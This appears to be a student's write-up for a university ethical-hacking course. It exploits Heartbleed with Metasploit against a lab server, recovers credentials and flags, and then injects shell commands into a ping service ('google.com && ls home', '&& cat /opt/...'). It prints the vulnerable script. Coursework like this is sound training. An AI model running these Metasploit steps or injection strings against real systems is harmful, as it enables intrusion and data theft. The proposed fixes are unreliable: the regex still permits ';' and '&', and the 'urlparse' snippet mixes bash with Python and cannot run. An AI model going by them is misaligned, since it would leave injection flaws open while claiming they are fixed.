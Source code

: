 # Penetration-Testing
An assignment for my Intro to Ethical-Hacking course (CMSC 389R) at the University of Maryland.

## Part 1

For this part, I opened the metasploit console, and began to search for CVE-2014-0160, which led me to the heartbleed exploit which I selected to use. I then used an nmap scan (https://pentest-tools.com/network-vulnerability-scanning/tcp-port-scanner-online-nmap) to scan for all the open ports that were available on briong.com. After a short scan I discovered that ports 22, 80, and 443 were open, the nmap scan also helped me discover the IP address of the briong website: ```165.227.204.80```. I set the IP address of Mark's server to be the host machine, and kept the port at 443. I enabled verbose output, and then ran the exploit on the target machine. 

```
search CVE-2014-0160
use auxilary/scanner/ssl/openssl_heartbleed
show options
set RHOSTS 165.227.204.80
set VERBOSE true
exploit
```

This gave me a large amount of output, but from all this data a few keywords popped out at me, the username, password, flag, and easter egg. The easter egg was something not recognizable, but one thing that led me to believe that it was encrpyted was the ```'='``` character at the end of the long string of letters, I knew that this character is used as padding for 64bit encryption. 


```
Username: mnthomp22
Password: pass1234
Flag: CMSC389R-{h3art_bl33d}
Easter Egg: WAIT THIS ISN'T ENCRYPTION?? CMSC389R-{base64_is_still_used_for_crypt0}
```

## Part 2

In terms of my thought process, the first thing I did for this part was to search exploit_db (https://www.exploit-db.com/) for possible command line exploits we could use with the metasploit console, I did not find anything substantial that I could use and so I decided to connect to Mark's server with ```nc briong.com 45``` to run a few commands and implement some black box testing. After inputing a few commands with little success, I remembered that I could use ```&&``` to run two commands one after the other, so I started exploring the server running commands such as ```google.com && ls -a``` to look inside Mark's server. I located the ```home``` directory and ran ```google.com && ls home``` which revealed the ```flag.txt``` file which contained the flag:

```Flag: CMSC389R-{p1ng_c0mmand_inj3ction}```

In order to figure out how Mark could fix this vulnerability I searched for his script on his machine, while looking through the ```opt``` directory I found a script called ```container_startup.sh```. After looking it up by inputing ```google.com && cat /opt/container_startup.sh```. This resulted in the following script:

```
#!/bin/bash

unset domain

echo -n "Ping an IP or domain: "
read domain
>&2 echo "[$(date)] IP/DOMAIN: $domain"
echo "Pinging: $domain"
python -c "import commands; s,c = commands.getstatusoutput('ping -c 5 $domain'); print c"
```

It seems that Mark's problem is that he does not sanitize his input, anything that a user enters goes unchecked and is run, Mark could easily check his input by using regular expressions, something like this could work: 

```
/((([A-Za-z]{3,9}:(?:\/\/)?)(?:[-;:&=\+\$,\w]+@)?[A-Za-z0-9.-]+|(?:www.|[-;:&=\+\$,\w]+@)[A-Za-z0-9.-]+)((?:\/[\+~%\/.\w-_]*)?\??(?:[-\+=&;%@.\w_]*)#?(?:[\w]*))?)/
```

Aternatively, Mark could use input sanitization to remove any additional commands that someone may try to run while using his service. Something simple from python's ```urllib.parse``` library can work:

```
from urllib.parse import urlparse
ping -c 5 urlparse($domain)
```
